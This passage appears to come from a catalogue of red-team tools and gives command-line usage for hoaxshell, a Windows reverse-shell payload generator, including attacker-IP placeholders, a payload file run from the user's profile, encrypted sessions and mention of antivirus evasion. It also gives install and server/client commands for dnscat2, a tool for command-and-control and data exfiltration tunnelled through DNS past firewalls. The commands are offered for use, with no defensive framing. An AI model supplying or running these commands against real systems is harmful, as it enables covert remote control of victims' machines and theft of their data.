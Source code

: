 # Payload that utilizes Invoke-Expression (default)
sudo python3 hoaxshell.py -s <your_ip>

# Payload that writes and executes commands from a file
sudo python3 hoaxshell.py -s <your_ip> -x "C:\Users\\\$env:USERNAME\.local\hack.ps1"

# Encrypted shell session with a trusted certificate
sudo python3 hoaxshell.py -s <your.domain.com> -t -c </path/to/cert.pem> -k <path/to/key.pem>
Full usage documentation here.

Usage Demo - YouTube

Hoaxshell vs AV

image

Image used from https://github.com/t3l3machus/hoaxshell

Exfiltration
🔙Dnscat2
A tool for establishing C2 connections via DNS, even if the attacker and victim machines are behind a firewall / network address translation (NAT).

The tool is designed to be stealthy and difficult to detect, as it uses legitimate DNS traffic to transmit data.

Install: (Compile - Server)

git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/server/
gem install bundler
bundle install
Install: (Compile - Client)

git clone https://github.com/iagox86/dnscat2.git
cd dnscat2/client/
make
Full installation information can be found in the Installation Section.

Usage: (Server)

# Establish the server
ruby ./dnscat2.rb DOMAIN.COM
Usage: (Client)

# Establish the client with authoritative domain
./dnscat2 DOMAIN.COM

# Establish the client without authoritative domain
./dnscat2 --dns host=0.0.0.0,port=0000
